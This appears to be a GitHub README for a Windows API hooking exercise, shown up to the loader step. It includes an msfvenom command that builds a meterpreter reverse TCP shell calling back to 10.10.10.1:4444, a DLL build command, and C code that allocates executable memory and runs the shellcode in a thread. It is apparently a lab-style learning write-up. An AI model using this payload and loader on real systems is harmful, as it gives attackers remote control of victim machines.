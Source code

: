 # windows API hooking
This is a little excercise that tries to solve the following task:  
hook a Win API function that gets called in an executable

This task gets solved in the following way:  
Write hooking code for a chosen Win API function, put it in a DLL and inject the DLL into some target process.

This example is split into two parts, a preparation phase and the coding phase.

prep phase:
+ Injecting meterpreter shellcode and executing through a DLL
+ DLL Debugging 
+ choosing the target function

tackling the problem:
+ writing the hooking code
+ building an exe to test the hook
+ adopting for x64
+ porting over to a DLL file

## Injecting meterpreter shellcode and executing through a DLL
At first I had some issues with executing meterpreter shellcode from a simple, self written DLL. This is due to a difference in execution of the shellcode depending on whether it is run from an .exe file or a .dll. Additionally, I noticed another issue when starting the DLL main or function via rundll32.exe. The executed shellcode does not keep the main thread from exiting. Therefor, I had to keep the DLL from exiting through either sleep or an infinite loop.

### Differences in starting the shellcode 
First things first, the chosen shellcode was a meterpreter windows x64 reverse tcp shell created with

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.10.1 LPORT=4444 -f c > code.c`

The shellcode is then embedded in a simple c file and compiled as a DLL with cl 

`cl.exe /O2 /D_USRDLL /D_WINDLL hook.c /MT /link /DLL /OUT:Hook.dll`

Also, as described [here](https://stackoverflow.com/questions/1130479/how-to-build-a-dll-from-the-command-line-in-windows-using-msvc), the same can be achieved with just `cl /LD <files>`

The shellcode execution in an exe file can either be done by specifying the code location as the starting point for a new thread like so:

```c
    exec = VirtualAlloc(0, lensh, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	RtlMoveMemory(exec, shellcode, lensh);
	VirtualProtect(exec, lensh, PAGE_EXECUTE_READ, &oldprotect);
	thread = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec, 0, 0, 0);
	WaitForSingleObject(thread, 0);
```


